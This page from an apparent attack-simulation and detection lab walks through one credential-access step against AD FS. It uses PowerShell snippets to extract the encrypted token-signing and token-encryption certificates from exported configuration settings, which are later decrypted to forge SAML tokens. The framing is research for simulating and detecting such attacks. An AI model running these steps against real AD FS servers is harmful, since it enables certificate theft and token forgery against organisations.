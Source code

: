 # Export Active Directory Federation Services (AD FS) Certificates in Encrypted Format

After exporting the configuration settings of the AD FS database, a threat actor would use it to extract sensitive information such as certificates (Token signing and encryption) in an encrypted format which can later be decrypted and used for further actions (e.g. [Forge SAML tokens](signSAMLToken.md)).

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported the AD FS configuration settings](exportADFSConfigurationSettings.md) from to go through the simulation steps.
    * AD FS Configuration Settings
        * The output from the previous step (`XML strings` object or `Microsoft.IdentityServer.PolicyModel.Configuration.ContractObject` object) is saved in the variable `$settings`. Use it in the PowerShell snippets below.

## AD FS Token Signing Certificate

### XML String Object

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$encPfxBytes | Format-Hex
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_cert.png)

## AD FS Token Encryption Certificate

### XML String Object

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$encPfxBytes | Format-Hex
```

## Output

Use the variable `$encPfx` for the next step where we [decrypt the AD FS certificates](decryptADFSCertificates.md). Remember that you also have to [get the AD FS DKM master key value](exportADFSDKMMasterKeyFromDC.md) from the domain controller to decrypt the certificates.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)